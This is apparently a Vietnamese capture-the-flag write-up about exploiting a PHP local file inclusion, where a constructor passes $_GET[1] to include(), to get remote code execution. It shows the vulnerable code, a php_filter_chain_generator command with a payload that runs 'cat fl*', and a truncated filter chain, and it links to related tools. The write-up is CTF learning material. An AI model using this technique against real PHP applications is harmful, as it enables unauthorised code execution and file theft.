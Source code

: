 ```php
<?php class cd{function __construct(){include($_GET[1]);}}
```

Vì hàm LFI có rất nhiều cách khai thác khác nhau để RCE. Các bạn có thể tham khảo ở 
https://to016.github.io/posts/PHPLFI2RCE/
Và còn nhiều cách khác các bạn có thể tìm hiểu thêm.
Nhưng ở bài này mình làm theo cách PHP FilterChain cho nhanh.

Bài phân tích của a Endy cho các bạn dễ hiểu : 
https://hackmd.io/@endy/Skxms9eW2

Và cách gen payload thì có tool hỗ trợ : 
https://github.com/synacktiv/php_filter_chain_generator

Sau khi download về thì chạy 
```bash
python3 php_filter_chain_generator.py --chain '<?php echo `cat fl* > duc_193.txt`; ?>'
```
Copy đoạn filterChain giống vậy: 
```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|...|convert.base64-decode/resource=php://temp
```

![image](https://hackmd.io/_uploads/B1MpRPw2gg.png)


Sau khi upload file lên thì requests tới : 
![image](https://hackmd.io/_uploads/SJq2k_v3gl.png)

Và chúng ta đã có flag.
![image](https://hackmd.io/_uploads/BkapJ_Phge.png)

:::note
Lưu ý : đây là mình làm local nên đã xoá đoạn `ob_start();` và `ob_end_clean();` để có thể nhận output cho dễ test. Do bây giờ server đang bị lỗi rồi.
:::